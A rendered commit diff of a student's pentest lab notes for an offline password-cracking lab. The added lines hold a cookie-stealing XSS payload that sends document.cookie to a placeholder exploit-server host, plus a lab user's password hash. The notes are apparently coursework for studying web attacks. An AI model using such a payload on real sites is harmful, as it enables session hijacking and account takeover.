

Before and after one commit to mikhail-alaska/hse, a Markdown page: pentest/pr5/Nikolaev_mikhail_pr5.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
Scripted auto-commit on change (2025-10-22 17:30:56) by gitwatch.sh

````diff
--- a/pentest/pr5/Nikolaev_mikhail_pr5.md
+++ b/pentest/pr5/Nikolaev_mikhail_pr5.md
@@ -125,3 +125,9 @@ ffuf -request req.txt -request-proto https \
 ## 10. Lab: Offline password cracking
 
 Тут как будто задача больше на скрафтить xss (я не смог). xss обращается по ручке server/cookie и мы забираем эту куки. потом кракаем хэш.
+
+```xxs
+<script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>
+```
+
+carlos:26323c16d5f4dabff3bb136f2460a943
````
